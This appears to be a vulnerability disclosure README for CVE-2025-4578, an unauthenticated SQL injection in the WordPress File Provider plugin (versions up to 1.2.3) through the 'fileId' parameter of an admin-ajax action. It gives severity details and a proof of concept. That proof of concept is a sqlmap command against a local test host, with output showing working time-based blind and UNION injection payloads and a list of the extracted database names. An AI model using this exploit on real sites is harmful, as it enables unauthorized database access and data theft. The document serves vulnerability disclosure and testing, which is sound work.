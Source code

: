# CVE-2025-4578
File Provider <= 1.2.3 - Unauthenticated SQL Injection

# Description

The File Provider plugin for WordPress is vulnerable to SQL Injection via the 'fileId' parameter in all versions up to, and including, 1.2.3 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: file-provider
- **Affected Version**: 1.2.3
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2025-4578
- **Status**: Closed

POC
---

```
sqlmap.py -u "http://kubernetes.docker.internal:8999/wp-admin/admin-ajax.php?action=dfp_download_file&fileId=*" --dbs --batch --dbms mysql --level=5 --risk=3 --threads=1 --time-sec=5
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.7.3#dev}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:27:43 /2025-07-10/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[12:27:44] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:27:44] [INFO] testing connection to the target URL
[12:27:44] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=3c848e84eb9...0a1642563d'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: http://kubernetes.docker.internal:8999/wp-admin/admin-ajax.php?action=dfp_download_file&fileId=(SELECT 6405 FROM (SELECT(SLEEP(5)))IWaW)

    Type: UNION query
    Title: Generic UNION query (random number) - 1 column
    Payload: http://kubernetes.docker.internal:8999/wp-admin/admin-ajax.php?action=dfp_download_file&fileId=-9489 UNION ALL SELECT CONCAT(0x7170717671,0x7a444e596a635a4a5973674b546c5748505855427457424358546451667473444c444c614f455173,0x71626b7171)-- -
---
[12:27:44] [INFO] testing MySQL
[12:27:45] [INFO] confirming MySQL
[12:27:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.2.28, PHP, Apache 2.4.62
back-end DBMS: MySQL >= 9.0.0
[12:27:45] [INFO] fetching database names
[12:27:45] [INFO] retrieved: 'information_schema'
[12:27:45] [INFO] retrieved: 'performance_schema'
[12:27:45] [INFO] retrieved: 'exampledb'
```
